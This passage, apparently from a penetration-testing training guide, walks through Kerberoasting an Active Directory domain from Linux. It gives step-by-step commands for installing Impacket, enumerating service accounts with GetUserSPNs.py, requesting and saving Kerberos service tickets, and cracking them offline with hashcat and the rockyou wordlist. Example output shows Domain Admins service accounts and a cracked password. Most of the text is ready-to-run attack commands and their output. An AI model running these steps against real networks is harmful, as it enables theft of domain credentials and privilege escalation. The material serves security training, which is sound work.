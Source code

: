 3. **Additional Utilities**:
   - `crackmapexec`: Validate cracked credentials.
   - `rockyou.txt` or other password wordlists for brute-force attacks.


### **Steps for Performing Kerberoasting on Linux**

#### **1. Install Impacket**
```bash
 sudo python3 -m pip install .
```
- Installs Impacket's tools in the system's PATH for easy access.



#### **2. Enumerate SPNs with Valid Credentials**
Command:
```bash
 GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USERNAME>
```

Example Output:
| ServicePrincipalName                          | Name             | MemberOf              | PasswordLastSet   |
|-----------------------------------------------|------------------|-----------------------|-------------------|
| `backupjob/veam001.inlanefreight.local`       | `BACKUPAGENT`    | `Domain Admins`       | `2022-02-15`      |
| `sts/inlanefreight.local`                     | `SOLARWINDSMONITOR` | `Domain Admins`     | `2022-02-15`      |



#### **3. Request TGS Tickets**
Command:
```bash
 GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USERNAME> -request
```
Output includes SPNs and encrypted TGS tickets (e.g., `$krb5tgs$23$...`).


#### **4. Save Tickets to a File for Cracking**
Command:
```bash
 GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USERNAME> -request -outputfile <FILE>
```



#### **5. Crack TGS Tickets with Hashcat**
Command:
```bash
 hashcat -m 13100 <FILE> /usr/share/wordlists/rockyou.txt
```

Example Cracked Password:
```plaintext
$krb5tgs$23$...:database!
```


